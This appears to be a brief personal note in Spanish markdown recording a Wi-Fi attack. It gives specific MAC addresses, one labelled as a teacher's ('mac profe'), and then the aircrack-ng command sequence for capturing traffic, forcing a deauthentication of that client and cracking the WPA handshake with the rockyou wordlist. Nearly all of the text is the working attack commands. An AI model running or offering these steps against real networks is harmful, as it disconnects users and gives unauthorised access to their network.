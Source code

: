 ```
MAC del modem = 38:FB:14:DD:13:B0
```

```
mac profe = 06:CA:0D:33:40:B7
```

```
channel = 1
```

```bash
airmon-ng stop wlan0mon
```

```bash
airmon-ng start wlan0 [channel]
```

```bash
airodump-ng -c 1 --bssid 38:FB:14:DD:13:B0 -w hack wlan0mon
```

```bash
aireplay-ng -0 9 -a 38:FB:14:DD:13:B0 -c 06:CA:0D:33:40:B7 wlan0mon
```

```bash
aircrack-ng -b 38:FB:14:DD:13:B0 -w /usr/share/wordlists/rockyou.txt hack-01.cap
```


![[Pasted image 20241122075809.png]]


